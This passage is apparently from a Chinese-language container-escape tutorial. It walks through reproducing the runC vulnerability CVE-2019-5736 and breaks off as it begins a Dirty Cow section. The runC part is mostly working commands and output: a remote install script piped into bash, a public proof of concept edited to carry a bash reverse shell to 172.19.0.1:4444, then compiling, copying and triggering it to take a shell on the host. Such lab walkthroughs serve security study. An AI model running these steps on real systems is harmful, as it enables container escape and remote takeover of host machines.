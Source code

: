 #### [](#341-cve-2019-5736)3.4.1 CVE-2019-5736

CVE-2019-5736 是 runC 的 CVE 漏洞编号，runC 最初是作为 Docker 的一部分开发的，后来作为一个单独的开源工具和库被提取出来，在 docker 整个架构的运行过程中，Containerd 向 docker 提供运行容器的 API，二者通过 grpc 进行交互。containerd 最后通过 runc 来实际运行容器。

**影响版本**

-   docker version <=18.09.2
-   RunC version <=1.0-rc6

**利用条件：**

攻击者可控 image，进一步控制生成的 container

攻击者具有某已存在容器的写权限，且可通过 docker exec 进入

**漏洞复现：**

1.  测试环境镜像下载安装

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>curl https://gist.githubusercontent.com/thinkycx/e2c9090f035d7b09156077903d6afa51/raw -o install.sh && bash install.sh<br>``` |

2.  下载POC，修改脚本，编译

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>``` | ```bash<br># 下载 poc<br>git clone https://github.com/Frichetten/CVE-2019-5736-PoC<br><br># 修改Payload<br>vi main.go<br>payload = "#!/bin/bash \n bash -i >& /dev/tcp/172.19.0.1/4444 0>&1"<br><br># 编译生成 payload<br>CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build main.go<br><br># 拷贝到 docker 容器中执行<br>docker cp ./main 248f8b7d3c45:/tmp<br>``` |

3.  在容器中执行 payload：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br>root@d1b112ea4a5e:/tmp# ./main<br>[+] Overwritten /bin/sh successfully<br>[+] Found the PID: 16<br>[+] Successfully got the file handle<br>[+] Successfully got write handle &{0xc8201231e0}<br>``` |

4.  假设，管理员通过 exec 进入容器，从而触发 Payload。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>docker exec -it  cafa20cfb0f9 /bin/sh<br>``` |

在 172.19.0.1 上监听本地端口，成功获取宿主机反弹回来的shell。

#### [](#342-cve-2019-14271)3.4.2 CVE-2019-14271

[https://xz.aliyun.com/t/6806](https://xz.aliyun.com/t/6806)

### [](#35-%E5%86%85%E6%A0%B8%E6%BC%8F%E6%B4%9E)3.5 内核漏洞

Dirty Cow（CVE-2016-5195）是 Linux 内核中的权限提升漏洞，通过它可实现 Docker 容器逃逸，获得 root 权限的 shell。

环境准备：

docker 与宿主机共享内核，因此我们需要存在 dirtyCow 漏洞的宿主机镜像。

添加容器下载并运行：
